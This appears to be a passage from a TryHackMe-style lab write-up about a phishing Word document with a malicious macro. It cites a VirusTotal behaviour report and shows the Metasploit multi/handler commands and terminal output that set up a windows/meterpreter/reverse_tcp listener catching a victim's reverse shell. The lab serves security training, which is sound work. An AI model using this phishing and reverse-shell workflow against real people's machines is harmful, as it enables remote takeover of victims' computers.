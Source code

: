 
You already expect this file to connect to the specified IP address and port. If you would like to check its behaviour in a sandbox, you can check the [VirusTotal report](https://www.virustotal.com/gui/file/ab3f9303460c590c452f0c259a35d50a7a2e7c52a81d4e5a42bb98b365d8ab9b/behavior) for a file that we created and uploaded. In this case, it attempts to connect to `10.9.18.120`.

![VirusTotal summary of the payload behaviour](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/5f04259cf9bf5b57aed2c476-1729859908974.png)

![](images/Pasted%20image%2020241210205913.png)

Most of the AV already catch this file so, its pretty simple and informative only, let's check what would happen if a victim just downloaded this file:

## Listening for Incoming Connections

We again will use the Metasploit Framework, but this time to listen for incoming connections when a target users opens our phishing Word document. This requires the following commands:

- Open a new terminal window and run `msfconsole` to start the Metasploit Framework
- `use multi/handler` to handle incoming connections
- `set payload windows/meterpreter/reverse_tcp` to ensure that our payload works with the payload used when creating the malicious macro  
    
- `set LHOST CONNECTION_IP` specifies the IP address of the attacker’s system and should be the same as the one used when creating the document
- `set LPORT 8888` specifies the port number you are going to listen on and should be the same as the one used when creating the document
- `show options` to confirm the values of your options
- `exploit` starts listening for incoming connections to establish a reverse shell

AttackBox Terminal

```shell-session
root@AttackBox:~# msfconsole 
[...]
Metasploit Documentation: https://docs.metasploit.com/

msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST CONNECTION_IP
LHOST => CONNECTION_IP
msf6 exploit(multi/handler) > set LPORT 8888
LPORT => 8888
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     CONNECTION_IP    yes       The listen address (an interface may be specified)
   LPORT     8888             yes       The listen port


Exploit target:

   Id  Name
   --  ----
```